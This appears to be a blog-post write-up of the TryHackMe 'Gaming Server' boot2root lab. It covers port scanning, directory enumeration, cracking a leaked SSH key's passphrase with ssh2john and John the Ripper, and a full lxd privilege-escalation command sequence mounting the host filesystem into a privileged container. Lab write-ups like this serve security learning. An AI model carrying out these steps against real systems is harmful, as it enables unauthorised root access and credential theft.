 ```yaml
---
layout: post
title: "Gaming Server"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [private-key, ssh2john, password-cracking, lxd]
image: ../../assets/img/posts/gamingserver.png 

---
```


## Description

An Easy Boot2Root box for beginners

|**Room**|[Gaming Server](https://tryhackme.com/room/gamingserver)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[SuitGuy](https://tryhackme.com/p/SuitGuy)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.144.153
```

![image](https://user-images.githubusercontent.com/67465230/186084579-4a9c8175-5e02-474a-be12-49dabf93c007.png)

This reveals 2 open ports. Lets scan them using nmap,

```bash
nmap -sC -sV -p22,80 10.10.144.153 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084629-457a49dd-529c-4a34-b638-d6d7e9ebca9a.png)

Looks like port 22 is running ssh service and port 80 is running a webserver. Starting enumeration of port 80.

Visit http://10.10.144.153,

![image](https://user-images.githubusercontent.com/67465230/186084672-75f75382-069a-428f-9cbf-3839cec30079.png)

and we get stumble on a primitively build webpage, which has nothing interesting in it except it's source code page.

Scrolling down, there is a comment for John(username enumeration),

![image](https://user-images.githubusercontent.com/67465230/186084721-7036d186-cc9c-43ce-b135-ebc8e8fd8b9b.png)

Now, we need to find hidden directories,

```bash
dirsearch -u http://10.10.144.153 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186084760-bc9edc9f-25b4-44de-af74-ae87d0098757.png)

we got 2 hidden directories.

Visit http://10.10.144.153/secret,

![image](https://user-images.githubusercontent.com/67465230/186084800-cad2b60a-5e38-469e-bf37-b9410fbc95a8.png)

we got a file named **secretKey**. Maybe there is something useful for us. Let's find out.

Opening this file and I saw the private id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/186084857-6b884158-96c1-4125-a0d8-1d927deda901.png)

Copy this key into secretkey file and we will use ssh2john script to convert this key into crackable hash, 

```bash
/usr/share/john/ssh2john.py secretkey > crackme
```

Now using JTR, we can crack this hash and obtain the password,

```bash
john crackme --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084905-8e49dbc0-e4f5-41d0-91ce-4d47867c92b6.png)

we got the password to login via ssh.

Now, changing the mode of the secretkey to give it suitable permissions, 

```bash
chmod 600 secretkey
```

Now we need to hop into machine as john user using secretkey,

```bash
ssh -i secretkey john@10.10.6.96
```

![image](https://user-images.githubusercontent.com/67465230/186084950-948e24eb-b6c6-4248-b094-28a217283448.png)

and we got in.

Enumerating directory and we got user flag,

![image](https://user-images.githubusercontent.com/67465230/186084993-7dd7907a-224d-4f0d-a204-66c59e277309.png)

Now, Issuing `id`command tells us that we are john user and we are in **lxd** group,

![image](https://user-images.githubusercontent.com/67465230/186085033-f744f349-312b-4096-9e1e-99edb2b0e43e.png)

By viewing that user john is in lxd group means we can abuse the lxd functionality to become system user. There is a great article on [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

Now, we have to download the alpine builder from github and follow some commands,

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will build up the package for us.

Now that our package is built, we need to start a python server to host this package on remote machine, `python3 -m http.server`

Navigating to /tmp directory and downloading this file using wget command,

![image](https://user-images.githubusercontent.com/67465230/186085073-4ee731b4-d751-41c3-a7d0-b8403b3412d6.png)

At first, we need to import the image into lxc image list as myimage,

```bash
lxc image import ./alpine-v3.14-x86_64-20210810_1625.tar.gz --alias myimage
```

![image](https://user-images.githubusercontent.com/67465230/186085119-73358c85-02fd-4669-b023-9f94ccf212e9.png)

Now, listing all images again,

```bash
lxc image list
```

![image](https://user-images.githubusercontent.com/67465230/186085146-6d1ab25e-fb6f-47fb-82d3-b12a0e3d52d0.png)

our image is now successfully added.

Now, to exploit the lxd, we need to execute command below,

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

>In the above commands we created a container named gaming having all the privileges and mounted the /root directory to /mnt/root then executed /bin/sh

and when we issue `id` command, it will show us that we are **root**.

Navigating to directory we mounted,

![image](https://user-images.githubusercontent.com/67465230/186085187-f0c3fdcd-fd28-4af9-b6a2-a79195268c6f.png)

we can see the system path with many directories (from root user perspective.).

Navigate to /mnt/root/root will let us have our root flag.
